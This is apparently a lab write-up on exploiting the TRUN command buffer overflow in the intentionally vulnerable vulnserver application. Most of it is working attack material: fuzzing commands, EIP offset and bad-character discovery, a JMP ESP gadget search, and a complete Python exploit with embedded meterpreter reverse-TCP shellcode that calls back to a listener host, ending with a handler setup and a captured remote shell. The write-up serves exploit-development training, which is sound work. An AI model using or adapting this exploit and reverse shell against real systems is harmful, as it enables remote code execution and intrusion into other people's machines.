 ```yaml
---
layout: doc 
title: Vulnserver-Trun
date: 2020-01-30
author: Mojo
categories: ["Vulnserver"]
---
```


# ** TRUN **

This is probably the best place to start on vulnserver.
The function is straight forward once you know what triggers the BOF.

I read vulnserver.c but you can also fuzz for these with tools like [spike](https://github.com/guilhermeferreira/spikepp/tree/master/SPIKE).

![trun-trigger](/assets/pictures/bofs/vulnserver/trun-trigger.PNG)

##### "." is apparently the trigger

Using my little [fuzz script](https://gist.github.com/mojodojo101/9df5012a0928f824d158e50d91305435) i was able to find a break point quickly



```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -h
usage: fuzzer.py [-h] -f FUNC_TO_FUZZ -l LENGTH_OF_BUFFER -i IP -p PORT
                 [-b BAD_CHARS]
                 {func} ...

bof-exploit

positional arguments:
  {func}               func ['fuzzbc', 'testeip', 'fuzzbp']

optional arguments:
  -h, --help           show this help message and exit
  -f FUNC_TO_FUZZ      function to fuzz for example "HELLO "
  -l LENGTH_OF_BUFFER  length of buffer
  -i IP                ip
  -p PORT              port
  -b BAD_CHARS         bad chars for example "0x10,0x0a,0x0d"
```

Lets send our first payload. Using the function fuzzbp (Fuzz breaking point). And specifying a -f for which function to fuzz on the server. In this case we want to fuzz "TRUN ." 


```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 4000 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
```
This crashed the Server with a bunch of "A"'s
![crash-1](/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

Like a [binary-search-algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) i will just cut the length of our buffer in half now to home in on the crashing point.

We can quickly restart the server by pressing F3, selecting the correct binary and pressing 2 times F9.

```bash
    root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
^CTraceback (most recent call last): 
  File "fuzzer.py", line 120, in <module>                   
    FUNCTION_MAP[args.func](args.func_to_fuzz,args.length_of_buffer,[args.bad_chars],args.ip,args.port)     
  File "fuzzer.py", line 62, in fuzzBreakPoint                  
    sendPayload(buffer,ip,port)      
  File "fuzzer.py", line 40, in sendPayload                 
    s.recv(1024)                                                                                                                                            
KeyboardInterrupt                                                             
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 2000 .
 the last 20 bytes of the buffer are:                                                                                                                       
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a    
root@kali:~/redteam/vulnserver#      
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 3000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 3000 .                                                                                            
 the last 20 bytes of the buffer are:                                         
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2500 -i 192.168.138.139 -p 9999 func fuzzbp
...

```
Eventually we will find the last offset where we dont stop the programs execution is at 2006 bytes.

Now we can start looking for [EIP](http://unixwiz.net/techtips/win32-callconv-asm.html) using -f testeip

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func testeip
send payload to 192.168.138.139:9999 with total length of 2018 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:42:42:42:42:43:43:43:43:44:44:44:44:0d:0a
```
![trun-crash-2](/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

We overwrote EIP with 4* 0x44 which corresponds to the bytes 2013-2016 since the last two bytes are our \r\n.

Now we should check for bad chars by using the -f fuzzbc (Fuzz bad characters) function.

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func fuzzbc
send payload to 192.168.138.139:9999 with total length of 2274 .
 the last 20 bytes of the buffer are:
 ee:ef:f0:f1:f2:f3:f4:f5:f6:f7:f8:f9:fa:fb:fc:fd:fe:ff:0d:0a
```

![trun-bc-1](/assets/pictures/bofs/vulnserver/trun-bc-1.PNG)

The first byte in our bad chars fuzz buffer "0x00" stopped the server from receiving more information.
We add the -b "0x00" flag to blacklist that byte.

```
python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 -b "0x00" func fuzzbc
```
Now it seems like the fuzzing chars all went through 

![trun-gc-1](/assets/pictures/bofs/vulnserver/trun-gc-1.PNG)


![trun-gc-2](/assets/pictures/bofs/vulnserver/trun-gc-2.PNG)

We can check this by subtracting the amount of bad chars we removed from our 256-char buffer. We only removed 1 char so our buffer should be 255 bytes long.
And indeed our buffer stops exactly at 0x23dfadf.

```bash
     printf "%x" $(($(echo $((0x023DF9E0)))+255))
     23dfadf
```

Search for a gadget that lets us jump to our shellcode. Since i turned DEP and ASLR off for this exercise we can just search for a JMP ESP statement. Using msf-nasm-shell or my personal favorite rasm2 we can find the right opcode for this.

```bash
    rasm2 -a x86 -b 32  "jmp esp"
    #returns ffe4
```
Use "!mona modules" in Immunity-debugger-console to find modules which have little protection. vulnserver.exe and essfunc.dll seem like a good source of gadgets.
```cmd
    !mona modules
```

![mona-modules](/assets/pictures/bofs/vulnserver/trun-mona-modules.PNG)

Search for our jmp esp in the modules.
```cmd
    !mona find -s "\xff\xe4" -m essfunc.dll
```

![mona-jmp-esp](/assets/pictures/bofs/vulnserver/trun-mona-jmp-esp.PNG)

Great 0x625011af seems like a good choice for our exploit since it does not contain any bad chars ("0x00").
This means we have all the pieces to craft our script.

To recap we need;
1. "Trun ." to trigger the exploit. (total length 6)
2. 2006 bytes of random chars which are not 0s (total length 2012)
3. EIP, which will be 0x625011af reversed since windows uses little endian for everything but Networking 
-> 0xaf115062
4. Some NOP aka 0x90 to give our exploit space on the stack

#### The final exploit:
```python
import sys,socket
host="192.168.138.139"
port=9999

#msfvenom -p windows/meterpreter/reverse_tcp -f python LHOST=192.168.138.138 LPORT=443 > shellcode

buf =  b""
buf += b"\xd9\xc3\xb8\x0a\xe4\xfe\x67\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x56\x83\xef\xfc\x31\x47\x14\x03\x47\x1e\x06"
buf += b"\x0b\x9b\xf6\x44\xf4\x64\x06\x29\x7c\x81\x37\x69\x1a"
buf += b"\xc1\x67\x59\x68\x87\x8b\x12\x3c\x3c\x18\x56\xe9\x33"
buf += b"\xa9\xdd\xcf\x7a\x2a\x4d\x33\x1c\xa8\x8c\x60\xfe\x91"
buf += b"\x5e\x75\xff\xd6\x83\x74\xad\x8f\xc8\x2b\x42\xa4\x85"
buf += b"\xf7\xe9\xf6\x08\x70\x0d\x4e\x2a\x51\x80\xc5\x75\x71"
buf += b"\x22\x0a\x0e\x38\x3c\x4f\x2b\xf2\xb7\xbb\xc7\x05\x1e"
buf += b"\xf2\x28\xa9\x5f\x3b\xdb\xb3\x98\xfb\x04\xc6\xd0\xf8"
buf += b"\xb9\xd1\x26\x83\x65\x57\xbd\x23\xed\xcf\x19\xd2\x22"
buf += b"\x89\xea\xd8\x8f\xdd\xb5\xfc\x0e\x31\xce\xf8\x9b\xb4"
buf += b"\x01\x89\xd8\x92\x85\xd2\xbb\xbb\x9c\xbe\x6a\xc3\xff"
buf += b"\x61\xd2\x61\x8b\x8f\x07\x18\xd6\xc7\xe4\x11\xe9\x17"
buf += b"\x63\x21\x9a\x25\x2c\x99\x34\x05\xa5\x07\xc2\x1c\xa1"
buf += b"\xb7\x1c\xa6\xa2\x49\x9d\xd6\xeb\x8d\xc9\x86\x83\x24"
buf += b"\x72\x4d\x54\xc8\xa7\xfb\x5e\x5e\x88\x53\xd4\x14\x60"
buf += b"\xa1\xe9\x29\xca\x2c\x0f\x79\x7c\x7e\x80\x3a\x2c\x3e"
buf += b"\x70\xd3\x26\xb1\xaf\xc3\x48\x18\xd8\x6e\xa7\xf4\xb0"
buf += b"\x06\x5e\x5d\x4a\xb6\x9f\x48\x36\xf8\x14\x78\xc6\xb7"
buf += b"\xdc\x09\xd4\xa0\xba\xf1\x24\x31\x2f\xf1\x4e\x35\xf9"
buf += b"\xa6\xe6\x37\xdc\x80\xa8\xc8\x0b\x93\xaf\x37\xca\xa5"
buf += b"\xc4\x0e\x58\x89\xb2\x6e\x8c\x09\x43\x39\xc6\x09\x2b"
buf += b"\x9d\xb2\x5a\x4e\xe2\x6e\xcf\xc3\x77\x91\xb9\xb0\xd0"
buf += b"\xf9\x47\xee\x17\xa6\xb8\xc5\x2b\xa1\x46\x9b\x03\x0a"
buf += b"\x2e\x63\x14\xaa\xae\x09\x94\xfa\xc6\xc6\xbb\xf5\x26"
buf += b"\x26\x16\x5e\x2e\xad\xf7\x2c\xcf\xb2\xdd\xf1\x51\xb2"
buf += b"\xd2\x29\x62\xc9\x9b\xce\x83\x2e\xb2\xaa\x84\x2e\xba"
buf += b"\xcc\xb9\xf8\x83\xba\xfc\x38\xb0\xb5\x4b\x1c\x91\x5f"
buf += b"\xb3\x32\xe1\x75"
#addr of JMP ESP = 0x625011af
exploitbuffer="TRUN ."+"A"*2006+"\xaf\x11\x50\x62"+"\x90"*16+buf+"\r\n"
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
s.recv(1024)
s.send(exploitbuffer)
sys.exit(0)
```

Now to run the exploit:
```bash
    msfconsole
    use exploit/multi/handler
    set lhost 127.0.0.1
    set lport 443
    run
```
and in another terminal

```bash
    python exploit.py
```

And we get a nice shell back
```bash
meterpreter > shell
Process 3720 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\vulnserver>whoami
whoami
iewin7\ieuser

C:\Users\IEUser\Desktop\vulnserver>    

```
